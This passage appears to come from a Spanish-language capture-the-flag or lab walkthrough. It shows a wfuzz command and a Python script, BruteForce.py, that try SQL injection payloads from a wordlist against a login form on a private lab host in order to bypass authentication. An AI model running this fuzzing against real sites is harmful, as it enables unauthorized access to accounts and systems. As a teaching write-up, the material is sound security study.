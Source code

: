  
```console
$ wfuzz -c --hh 667 -t 200 -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt -d "uname=admin&psw=FUZZ&btnLogin=Login" [http://192.168.100.36/index.php](http://192.168.100.36/index.php)
```

  
  

![](https://lh5.googleusercontent.com/YEiX8YnvlRrMWsi7niDl2MjAov_6txdL28WeTJu2BlAmHoLm-GyqkX34tECRKZ9Xn9NZDjm-_v6cVPe2XYNQegW5q3NEJRmuCqHbQkzyN7y4WkjsDzPwNs-dmaf4jWCxSRxxBR24)

Cualquiera de estas inyección lograra el bypass del login o bien si prefieres hacerlo manual aquí te dejo mi script que hace la misma función que wfuzz.

# Script: BruteForce.py

```python
#!/usr/bin/env python3
import requests,sys,signal

#Variables globales
wordlist=[]

def handler(key,frame):
    print("Adios!!")
    sys.exit(0)

signal = signal.signal(signal.SIGINT,handler)

def bruteForce(line,rhost):

    url = "http://{}/index.php".format(rhost)

    data1={
        "uname":"admin",
        "psw":line,
        "btnLogin":"Login"
    }
    r1 = requests.post(url,data=data1)
    if(len(r1.content) != 667):
        print("Inyección: "+ line)

if __name__ == "__main__":

    if(len(sys.argv) != 2):
        print("[*] Uso: python3 {} RHOST".format(sys.argv[0]))
        sys.exit(0)
        
    rhost = sys.argv[1]

    diccionario = open("/usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt","r")
    for line in diccionario:
        line = line.strip()
        wordlist.append(line)
    
    for line in wordlist:
        bruteForce(line,rhost)
```
Una vez dentro nos encontramos con la siguiente funcionalidad:
